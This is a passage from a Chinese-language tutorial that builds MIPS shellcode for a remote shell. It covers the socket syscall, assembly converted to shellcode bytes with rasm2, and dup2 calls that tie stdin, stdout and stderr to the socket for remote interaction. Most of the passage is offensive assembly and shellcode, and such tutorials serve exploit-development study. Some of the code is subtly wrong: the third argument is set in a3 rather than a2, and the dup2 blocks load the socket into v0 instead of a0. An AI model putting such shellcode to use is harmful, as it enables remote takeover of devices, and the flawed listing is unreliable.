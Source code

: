 在 xxx 中，我们可以查到 `AF_INET`、`SOCK_STREAM` 常量对应的数值为 2 和 1。同样可以知道 `socket` 的系统调用号为 4183。

第一步先给三个参数（a0、a1、a2）赋值，即：

```
addiu  $a0, $zero, 2;
addiu  $a1, $zero, 1;
addiu  $a3, $zero, 0;
addiu  $v0, $zero, 0x1057;
syscall 0x40404;
sw $v0,10($sp);                                // 将描述符存入栈中
```

使用 `rasm2` 进行汇编转换为 shellcode：

```
➜  mips cat conn
addiu  a0, zero, 2;
addiu  a1, zero, 1;
addiu  a3, zero, 0;
addiu  v0, zero, 0x1057;
syscall 0x40404;
sw $v0,10($sp);

➜  mips rasm2 -a mips -b 32 -C -f ./conn
"\x02\x00\x04\x24\x01\x00\x05\x24\x00\x00\x07\x24\x57\x10\x02\x24\x0c\x00\x00\x00"
```

在将汇编代码写进文件时，因为 `rasm2` 无法识别 $，所以需要手动去掉 $ 符号。

### dup2 系统调用

dup2 函数的作用是复制文件描述符，将 socket 描述符复制 stdin、stdout、stderr 描述符中，这里我们就能在远程与本地交互。

以 C 语言来表示的话如下：

```
dup2(socket_obj,0)
dup2(socket_obj,1)
dup2(socket_obj,2)
```

dup2 的系统调用号为 4063。

对应的汇编表示为：

```
lw $v0,10($sp);            // sys_socket 系统调用的返回值，即 sock 对象
addiu $a1,zero,0
addiu $v0,zero,4063
syscall 0x40404

lw $v0,10($sp);            // sys_socket 系统调用的返回值，即 sock 对象
addiu $a1,zero,1
addiu $v0,zero,4063
syscall 0x40404

lw $v0,10($sp);            // sys_socket 系统调用的返回值，即 sock 对象
addiu $a1,zero,2
addiu $v0,zero,4063
syscall 0x40404
```
